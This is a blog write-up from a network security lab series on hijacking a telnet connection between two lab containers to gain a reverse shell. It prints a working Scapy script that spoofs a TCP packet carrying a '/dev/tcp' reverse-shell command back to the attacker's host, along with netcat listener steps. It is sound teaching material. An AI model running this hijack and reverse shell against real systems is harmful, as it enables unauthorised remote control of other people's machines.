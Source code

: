 +++
title = "TCP Attack Lab 3 - Obtaining a reverse shell"
date = "2023-05-01"
description = "Exploiting a TCP connection to obtain a reverse shell."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection to give us a reverse shell.

In the second part of this series, we conducted a TCP hijack attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In the third and final installment, we will go a step further to execute not an arbitrary command, but a reverse shell, a powerful technique that is commonly used in system exploits.


# Setup

The set up can be found in the [overview post](/blog/posts/tcp-attack-lab/0-overview).

 
# Hijacking a `telnet` Connection to Obtain a Reverse Shell

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server give us a shell in a technique known as a reverse shell exploit.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial"](/blog/images/tcp-reverse/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet"](/images/tcp-reverse/telnet.png)

The telnet connection between User 1 and User 2.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark data"](/blog/images/tcp-reverse/wireshark-data.png)

Using Wireshark to construct our packet.

---

# Using `netcat` to establish a TCP server

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat initial"](/blog/images/tcp-reverse/netcat-init.png)

Using netcat to establish a TCP server to display exploit output.

---


# Running the exploit

The following code will send our reverse shell hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 2>&1 0<&1 \r"

	pkt = ip/tcp/data

	print("SENDING REVERSE SHELL PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement numbers as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-reverse/python-attack.png)

Using netcat to establish a TCP server to display exploit output.

---

The `netcat` TCP server we established on port 9090 has given us a shell into User 2's machine. 

!["netcat after"](/blog/images/tcp-reverse/netcat-after.png)

A reverse shell has been granted.

---

Using this shell, I created a file called foo.txt in /home/seed. We can verify that the file was created. 

!["server"](/blog/images/tcp-reverse/server.png)

Files on the telnet server, User 2.

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

In this series we explored TCP RST and hijacking attacks and extended the hijacking attack to obtain a reverse shell.


### _Updated: May 1, 2023_